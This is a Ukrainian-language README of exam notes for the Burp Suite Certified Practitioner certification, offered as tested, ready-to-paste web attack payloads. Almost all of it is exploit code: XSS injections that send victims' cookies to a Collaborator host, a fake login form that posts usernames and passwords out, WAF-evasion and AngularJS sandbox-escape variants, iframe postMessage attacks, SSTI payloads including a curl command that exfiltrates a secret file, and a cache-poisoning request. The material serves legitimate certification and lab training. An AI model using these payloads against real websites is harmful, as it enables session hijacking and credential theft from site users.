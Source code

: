 # Burp-exam-notes

>Тут я викладу матеріали які можуть допомогти під час складання екзамену Burp Suite Certified Practitioner Exam. Частину із них я взяв [тут](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner), але як виявилось на практиці не всі вони були готові, деякі варто було допиляти, а деякі змінити, що забрало подекуди багато часу, з огляду на те, що сам екзамен триває 4 години. Тому дуже важливо мати усі ін'єкції робочі та перевірені, і не гаяти часу на їх виправлення під час самого екзамену.
>Корисні підказки для складання екзамену від [PortSwigger](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam)

----

**+eval**
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//

``` 
>тут в base64 передається 
```
fetch("https://burp.oastify.com/?cookie="+btoa(document['cookie']))
```
**+eval URL encode**
>тут готова ін'єкція яка повертає відповідно на колаборатор кукі, просто передати script у exploit server
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?SearchTerm=%22%2Beval(atob(%22ZmV0Y2goImh0dHBzOi8vMmNmbTZlMmFpajVmZWQ3ZXl4ZTN3Mnc0dXYwbW9oYzYub2FzdGlmeS5jb20vP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22))}%2F%2F"
</script>
```
**Function`X$**
>-Function`X$ тут у нас ін'єкція із використанням динамічних шаблонів, вміст всередині ${...} виконується під час виконання шаблону.
```
"-Function`X${'document.location="https://burp.oastify.com/"+document.cookie'}```-"
```
>адаптована версія із використанням Function`X$, лише передати script у exploit server для отримання cookies
```
<script>
location="https://0aa7008c03742cfb80f9085a003f00c4.web-security-academy.net/?find=%22-Function`X${'document.location=%22https://pf8ftts7s6lrxx4czzvyip2f86ex2oqd.oastify.com/%22%2Bdocument.cookie'}```-%22"
</script>
```
**XSS+cookie**
```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
```
"></select><script>document.location='http://burp.oastify.com/?cookie='+document.cookie</script>
```
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```
```
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">
```
```
<script>document.write('<img+src="http://burp.oastify.com?c='+document.cookie+'"+/>');</script>
```
```
</script><script>document.location="http://burp.oastify.com/?cookie="+document.cookie</script>
```
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?cookie='+document.cookie tabindex=1>#x';
</script>
```
>готова ін'єкція для query параметру, якщо такий вразливий
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```
```
\';document.location=`http://burp.oastify.com/?cookie=`+document.cookie;//
```
>викликаємо XSS через id=x, якщо задати в посиланні #x
```
<xss id=x onfocus=document.location="http://burp.oastify.com/?cookie="+document.cookie tabindex=1>#x
```
>ULR Encoded:
```
%3Cxss%20id=x%20onfocus=document.location=%22http://burp.oastify.com/?cookie=%22+document.cookie%20tabindex=1%3E#x
```
>підбір tag та event (є така лабораторна робота у portswigger)
```
<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?cookie='+document.cookie;>
```
>URL Encoded:
```
%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?cookie='+document.cookie;%3E
```
>викликаємо XSS через натискання жертвою кнопки x. Повний вигляд такий (для гарячої клавіші shift+X):
```
https://xxxxxx.net/?'accesskey='x'onclick='document.location="https://your-collaborator-url.com/?cookie="+document.cookie' 
```
***WAF***
>трохи спробуємо обійти WAF
```
</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 
```
>і передати його у ASCII (можна використовувати цей [сервіс](https://www.allmath.com/ascii-to-text.php), досить зручний)
```
</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```
```
"-alert(window["document"]["cookie"])-"
```
```
"-window["alert"](window["document"]["cookie"])-"
```
```
"-self["alert"](self["document"]["cookie"])-"
```
**Angular**
>тут у нас ін'єкція яка застосовується на сторінці із використанням AngularJS. 
constructor.constructor в Angular дає доступ до глобальної функції Function, яка дозволяє створювати і виконувати JavaScript-код у шаблоні. 
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}

```
**XSS+input+cookie**
>ін'єкція для викрадення паролю і логіна користувача, який скористається формою для авторизації. Звісно, сторінка повинна мати вразливість до XSS.
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
***Iframe***
>частково універсальні для exploit server
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:fetch(\'https://your-collaborator-url.com/\'+document.cookie)','*')">
</iframe>
```
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://your-collaborator-url.com?cookie=${document.cookie}`)>','*')">
</iframe>
```
***SSTI***
```
<%= system("curl https://your-collaborator-url.com/$(cat /home/carlos/secret)") %>
```
```
{{request.cookies.get('session')|urlize('https://your-collaborator-url.com/?cookie=')}}
```
***Web cache poisoning /js/geolocate.js***
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location%3d'https%3a//your-collaborator-url.oastify.com/%3fcookie%3d'%2bdocument.cookie%3b
```
----



